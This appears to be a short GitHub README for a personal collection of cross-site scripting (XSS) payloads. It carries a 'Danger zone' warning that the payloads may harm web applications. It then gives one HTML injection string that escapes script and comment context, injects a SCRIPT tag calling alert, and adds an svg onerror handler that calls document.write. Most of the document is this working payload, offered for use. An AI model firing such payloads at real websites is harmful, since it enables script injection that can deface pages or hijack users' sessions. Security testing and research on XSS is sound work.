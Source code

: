 # xss
Personally created XSS payloads

# Danger zone! <br>
> Danger zone is the area which xss payloads can be OR will be harmfull to a web application <br>

> So, do no use them unless you're sure the web app will not be damaged! <br>

## Document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
